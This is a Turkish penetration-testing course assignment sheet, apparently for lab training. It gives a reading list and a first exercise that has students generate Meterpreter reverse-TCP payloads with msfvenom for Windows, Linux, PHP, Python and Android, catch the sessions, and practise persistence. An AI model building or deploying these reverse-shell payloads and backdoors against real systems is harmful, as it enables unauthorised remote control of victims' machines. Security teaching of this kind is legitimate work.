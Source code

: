 # 🛡️ Güvenlik Testleri ve Penetrasyon - Pratik Ödevler

## 📚 Bu Bölümün Ödevleri (8 Adet)

---

## 📖 OKUMA ÖDEVLERİ

### 📑 Zorunlu Okumalar:
1. **Metasploit Unleashed**: https://www.metasploitunleashed.com/
2. **OWASP Testing Guide**: https://owasp.org/www-project-web-security-testing-guide/
3. **NIST Cybersecurity Framework**: https://www.nist.gov/cyberframework
4. **PTES Technical Guidelines**: http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines
5. **SMTP Security Best Practices**: https://www.rfc-editor.org/rfc/rfc5321.html

### 📰 Ek Makaleler:
- **"The Art of Meterpreter"** - Metasploit Blog
- **"Email Security: SMTP Vulnerabilities"** - SANS Institute  
- **"Social Engineering: The Human Factor"** - Kevin Mitnick
- **"Incident Response Playbook"** - NIST Special Publication 800-61
- **"Ethical Hacking Guidelines"** - EC-Council
- **"Post-Exploitation Techniques"** - Offensive Security

### 🎬 Video Kaynaklar:
- **Metasploit Minute**: https://www.rapid7.com/fundamentals/metasploit/
- **OWASP Top 10 Videolar**: https://owasp.org/www-project-top-ten/
- **Social Engineering Toolkit Demo**: https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/

---

## 🎯 ÖDEV 1: Meterpreter Payload Master
**Süre:** 90 dakika  
**Zorluk:** Orta ⭐⭐

### 📋 Görevler:
1. 5 farklı platform için Meterpreter payload oluşturun
2. Multi/handler ile payload'ları dinleyin
3. Session kurulumu ve temel post-exploitation komutları
4. Session persistence teknikleri uygulayın

### 🔧 Payload Türleri:
```bash
# Windows executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > win_shell.exe

# Linux binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4445 -f elf > linux_shell

# PHP web shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4446 -f raw > web_shell.php

# Python payload
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4447 -f raw > python_shell.py

# Android APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4448 -o android_backdoor.apk
```
